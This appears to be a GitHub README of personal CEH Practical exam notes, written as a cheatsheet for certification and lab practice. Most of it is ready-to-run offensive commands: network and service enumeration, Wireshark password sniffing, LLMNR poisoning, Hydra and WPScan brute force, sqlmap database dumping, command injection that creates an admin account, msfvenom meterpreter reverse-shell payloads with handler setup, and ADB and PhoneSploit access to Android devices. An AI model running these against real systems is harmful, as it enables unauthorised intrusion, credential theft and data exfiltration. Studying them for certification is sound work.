 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking - Enumeration
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
* Enum
```console
1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                          snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

4- DNS recon/enum-  dnsrecon -d www.google.com -z

5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				  enum4linux -u martin -p apple -P 10.10.10.10 (policy info)
  ```
</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
* To find FQDN (Find the FQDN in a subnet/network)
```console
nmap -p389 –sV -iL <target_list>
```
```console
 nmap -p389 –sV <target_IP>
```

* Scanning Networks (always do sudo su) --> To be root

  Nmap scan for alive/active hosts command for 192.189.19.18
```console
nmap -A 192.189.19.0/24 or nmap -T4 -A ip
```
  
Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command 
```console
nmap -sT -v 10.10.10.16
```
  
Nmap scan if firewall/IDS is opened, half scan 
```console
nmap -sS -v 10.10.10.16 
```
  
If even this the above command is not working then use this command  
```console
namp -f 10.10.10.16
```
Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use
```console
nmap -A 192.168.92.10
```

If host is windows then use this command - this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).
```console
nmap --script smb-os-discovery.nse 192.168.12.22 
```

nmap command for source port manipulation, in this port is given or we use common port  
```console
nmap -g 80 10.10.10.10
```
```console  
-A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).
```
```console  
5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.
```
Some extra RDP info
```console
Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
```
Some extra MYSQL info
```console
Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)
```

</details>

  <details>
  <summary>Wireshark</summary>
    
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
* Wireshark summary
   
  ```console
  tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

  tcp.flags.syn == 1   (Which machine for dos)

  http.request.method == POST   (for passwords) or click tools ---> credentials Also
  ```

 * Password Sniffing using Wireshark.  
In pcap file apply filter:- (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.
```console
http.request.method==POST
```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

 

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    
  ```console
    ftp x.x.x.x
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
	
<summary>HACKING WEB</summary>

@@ Hacking Web servers

```console
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

3- Crack FTP port using nmap-
nmap -p 21 10.10.10.10 (check if it is open or not)

ftp 10.10.10.10 (To see if it is directly connecting or need credentials if need. Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file. )

Now in terminal type-
hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10
or
hydra -l user -P passlist.txt ftp://10.10.10.10
```

@@ Hacking Web Application
```console
1- Scan Using OWASP ZAP (Parrot)- Type 'zaproxy' in the terminal and then it would open. In target tab put the url and click automated scan.

2- Directory Bruteforcing
gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

3- Enumerate a Web Application using WPscan & Metasploit BFA- (u means username) 
wpscan --url http://10.10.10.10:8080/NEW --enumerate u  

Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
```
 </details>
<details>

  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  
### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />
  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
<summary>Android</summary>

  ## Android
  
```console
1- nmap ip -sV -p 5555    (Scan for adb port)

2- adb connect IP:5555    (Connect adb with parrot)

3- adb shell              (Access mobile device on parrot)

4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
```

  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra

### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

hydra -l user -P passlist.txt ftp://10.10.10.10
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* FTP Get command
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```


</details>
  
# Steganography
  <details>
    <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
kali Hide Data Using Whitespace Stegnography- (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
```console
snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  
```
To Display Hidden Data-(then it will show the content of readme2.txt content) 
```console
snow -C -p "magic" readme2.txt
```
<img src="/IMG/Snow.png"/>

</details>
<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
    
    ## MD5 Calculator  
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
    <summary>VeraCrypt</summary>
      
  ## VeraCrypt 

  
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
  
  ## BCTextEncoded
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>

<details>
    <summary>Keywords</summary>
  
  ## Keywords
  
  
  * Img hidden      - Openstego
  * .hex            - Cryptool
  * Whitespace      - SNOW
  * MD5             - Hashcalc & MD5 Calculator
  * Encoded         - BCTexteditor
  * Volume & mount  - Veracrypt

</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [Wireshark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  

<details>
  <summary>Useful Links</summary>
  
## Links
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>





